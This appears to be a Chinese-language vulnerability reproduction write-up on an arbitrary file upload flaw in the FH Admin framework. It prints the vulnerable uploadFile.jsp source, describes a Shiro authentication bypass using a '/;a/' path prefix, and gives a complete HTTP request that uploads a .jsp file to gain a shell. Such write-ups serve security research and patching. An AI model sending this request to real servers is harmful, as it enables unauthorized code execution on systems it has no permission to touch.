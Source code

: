 FH Admin 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`plugins/uploadify/uploadFile.jsp`，即在项目下面存在文件夹plugins，其下面存在文件夹uploadify，而uploadify文件夹下面同时存在uploadFile.jsp文件；那么该项目非常有可能存在漏洞。

`uploadFile.jsp`文件内容如下：

    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <%@ page import="java.io.*, java.util.*, org.apache.commons.fileupload.*, java.util.*" %>
    <%@ page import="org.apache.commons.fileupload.disk.*, org.apache.commons.fileupload.servlet.*" %>
    <%!
        
        public void upload(HttpServletRequest request, HttpServletResponse response)throws ServletException, IOException {
            String savePath = this.getServletConfig().getServletContext().getRealPath("");
            savePath = savePath + request.getParameter("uploadPath");
            File f1 = new File(savePath);
            //这里接收了uploadPath的值  System.out.println(request.getParameter("uploadPath"));
            if (!f1.exists()) {
                f1.mkdirs();
            }
            DiskFileItemFactory fac = new DiskFileItemFactory();
            ServletFileUpload upload = new ServletFileUpload(fac);
            upload.setHeaderEncoding("utf-8");
            List fileList = null;
            try {
                fileList = upload.parseRequest(request);
            } catch (FileUploadException ex) {
                return;
            }
            
            
            String fileNmae = request.getParameter("fileNmae"); 
            Iterator<FileItem> it = fileList.iterator();
            String name = "";
            String extName = "";
            while (it.hasNext()) {
                FileItem item = it.next();
                if (!item.isFormField()) {
                    name = item.getName();
                    long size = item.getSize();
                    String type = item.getContentType();
                    //System.out.println(size + " " + type);
                    if (name == null || name.trim().equals("")) {
                        continue;
                    }
        
                    // 扩展名格式：
                    if (name.lastIndexOf(".") >= 0) {
                        extName = name.substring(name.lastIndexOf("."));
                    }
        
                    File file = null;
                    if(null != fileNmae && !"".equals(fileNmae)){
                        file = new File(savePath + fileNmae);
                    }else{
                        do {
                            if(null != fileNmae && !"".equals(fileNmae)){
                                file = new File(savePath + fileNmae);
                            }else{
                                name = new java.text.SimpleDateFormat("yyyyMMddhhmmss").format(new Date());   //获取当前日期
                                name = name + (int)(Math.random()*90000+10000);
                                file = new File(savePath + name + extName);
                            }
                        } while (file.exists());
                    }
        
                    File saveFile = new File(savePath + name + extName);
                    try {
                        item.write(saveFile);
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
            response.getWriter().print((name.trim() + extName.trim()).trim());
        }
    %>
    <%
        upload(request, response);
    %>

尝试访问此文件，提示未登录302跳转

![3.png](./resource/FHAdmin任意文件上传漏洞/media/rId24.png)

由于该框架使用到了shiro，如若shiro版本过低会导致shiro身份绕过漏洞，结合文库shiro部分的身份认证绕过利用即可getshell

我们使用

    /;a/plugins/uploadify/uploadFile.jsp 代码不唯一！！！具体请参考文库shiro权限绕过部分文章！！！

来绕过shiro的权限控制，可以注意到状态码为200

![4.png](./resource/FHAdmin任意文件上传漏洞/media/rId25.png)

结合之前给出的代码需要两个参数构造上传包

![5.png](./resource/FHAdmin任意文件上传漏洞/media/rId26.png)

发现上传成功，但是居然找不到文件。

![6.png](./resource/FHAdmin任意文件上传漏洞/media/rId27.png)

仔细看了一下才知道request.getParameter(\"uploadPath\");解析不了multipart里的参数，再次构造上传包

    POST /;a/plugins/uploadify/uploadFile.jsp?uploadPath=/plugins/uploadify/ HTTP/1.1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQDeBiVqfe6p3FMnJ


    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ
    Content-Disposition: form-data; name="imgFile"; filename="2204249.jsp"
    Content-Type: image/jpeg

    test
    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ--

成功shell

参考链接
--------

> https://xz.aliyun.com/t/8311

